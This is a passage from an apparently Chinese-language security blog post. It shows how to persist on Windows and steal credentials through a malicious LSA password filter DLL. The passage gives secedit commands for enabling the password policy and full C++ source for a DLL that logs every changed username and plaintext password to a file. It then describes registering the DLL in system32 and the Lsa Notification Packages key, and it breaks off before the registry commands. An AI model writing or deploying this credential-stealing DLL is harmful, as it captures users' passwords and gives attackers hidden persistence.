 [![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133116.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133116.png)

我们要利用该方法，首先要确保密码策略已启用

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133138.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217133138.png)

至于命令行怎么修改。可以这样

```
secedit /export /cfg gp.inf /quiet   将组策略导出为文件
在该文件里将PasswordComplexity项值修改为1
然后用secedit /configure /db gp.sdb /cfg gp.inf /quiet 将其导入数据库
刷新组策略： gpupdate/force
重启后生效
```

下面我们构造 dll 文件去覆盖它。

首先我们的 dll 文件内容如下。

```
#include<Windows.h>
#include<NTSecAPI.h>
#include <fstream>

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify() {
    OutputDebugString(L"InitializeChangeNotify");
    return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
    PUNICODE_STRING AccountName,
    PUNICODE_STRING FullName,
    PUNICODE_STRING Password,
    BOOLEAN SetOperation)
{
    OutputDebugString(L"PasswordFilter");
    return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordChangeNotify(
    PUNICODE_STRING UserName,
    ULONG RelativeId,
    PUNICODE_STRING NewPassword)
{
    FILE *pFile;
    fopen_s(&pFile, "C:\\logFile.txt", "a+");
    fprintf(pFile, "%ws:%ws", UserName->Buffer, NewPassword->Buffer);
    return 0;
}
```

然后把这个 dll 文件放入 system32 文件，然后修改注册表，使 hklm\system\currentcontrolset\control\lsa 的 notification packages 表项包括我们的恶意 dll 文件，具体命令行操作如下
